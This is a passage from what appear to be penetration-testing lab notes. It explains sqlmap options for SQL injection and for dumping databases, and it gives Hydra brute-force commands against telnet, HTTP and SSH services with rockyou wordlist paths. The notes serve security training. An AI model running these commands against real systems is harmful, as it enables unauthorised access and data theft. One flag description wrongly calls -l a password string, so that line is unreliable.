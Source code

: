 <u>Notations</u>

```
-u ==> specify url to check
-p ==> parameter to specify [eg, id]
--technique=U ==> Use Union Attacks
--technique=B ==> Use Boolean Attacks
--tables ==> Dump tables
-D ==> Specify Name of the Database
-T ==> Table Name to dump
--dump ==> Dump the content from the Database
```

## <u>JSQL Injection [GUI Software]</u>

`JSQL GUI` is a GUI application that can fetch database from sql injection, From `GET` request [the parameter being in the URL as `injection.php?id=123`]


# <b><u>Bruteforce Attacks</u></b>

## <u>Bruteforce Wordlists Suggested in INE LABS</u>

<b>USERNAME LIST 1:</b> `/usr/share/ncrack/minimal.usr`<br>
<b>PASSWORD LIST 1:</b> `/usr/share/seclists/Passwords/rockyou-10.txt`<br>
<b>PASSWORD LIST 2:</b> `/usr/share/seclists/Passwords/rockyou-15.txt`

## <u>Hydra</u>

<i>Attacking `telnet service`</i>

`hydra -L user_list.txt -P password_list.txt telnet://target.server`

<i>Attacking `http-get service`</i>

`hydra -L user_list.txt -P password_list.txt http-get://target.server`

<i>Attacking `ssh service`</i>

`hydra -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-15.txt ssh://192.168.99.22:22`

<u>Notations</u>

```
-l ==> Password string to use
-L ==> Define List of usernames stored in a File

-p ==> Password string to use
-P ==> Define List of passwords stored in a File

telnet:// ==> used for telnet connection
http-get:// ==> used for http-get requests
```
